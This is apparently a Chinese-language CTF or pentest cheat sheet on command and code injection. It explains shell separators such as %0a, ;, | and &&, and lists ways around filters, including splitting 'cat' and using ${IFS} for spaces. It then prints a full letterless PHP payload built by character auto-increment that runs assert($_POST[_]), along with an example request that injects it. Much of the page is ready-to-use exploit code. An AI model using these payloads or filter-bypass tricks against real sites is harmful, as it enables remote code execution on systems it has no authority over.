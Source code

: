 - %0a：表示换行符（newline），用于在字符串或文本中表示一个新行的开始。在ASCII编码中，它对应于十进制值10。
- %0d：表示回车符（carriage return），用于将光标移动到当前行的开始。在ASCII编码中，它对应于十进制值13。在某些环境中，回车符和换行符一起用于表示新行（例如，Windows中的\r\n）。
- ;：分号在许多编程语言中用于分隔语句。在命令行环境中，如Unix和Linux Shell，分号用于在同一行上执行多个命令，命令会按顺序执行，不考虑前一个命令的执行结果。
- &：在命令行环境中，&符号通常用于将命令放入后台运行，允许用户在命令执行时继续使用命令行。在某些编程语言中，&还可以表示按位与（bitwise AND）操作。
- |：管道符，用于在命令行环境中将一个命令的输出作为另一个命令的输入。这使得用户可以将多个操作链接在一起，从而创建复杂的数据处理管道。
- &&：在命令行环境中，&&用于将多个命令链接在一起，使得只有在前一个命令成功执行（返回值为0）时，才会执行下一个命令。在某些编程语言中，&&表示逻辑与（logical AND）操作。
- ||：在命令行环境中，||用于将多个命令链接在一起，使得只有在前一个命令失败执行（返回值非0）时，才会执行下一个命令。在某些编程语言中，||表示逻辑或（logical OR）操作。

过滤小结:

- 过滤cat:

```bash
  ca/t ca""t ca''t
  拼接 a=ca;b=t;$a$b
```

- 过滤空格: `<,<>,${IFS}`
- 过滤运算分隔符号:`;->%0a` `file | base64-> base64 file` `/->cd${IFS}`

### 无字母自增构造paylaod

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);

这是固定格式构造出来的 assert($_POST[_]);

然后post传入 _=phpinfo();

eg:*/);闭合标签/*注释*/
user=1/*&pass=aa&website=&punctuation=*/);$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);/*

```
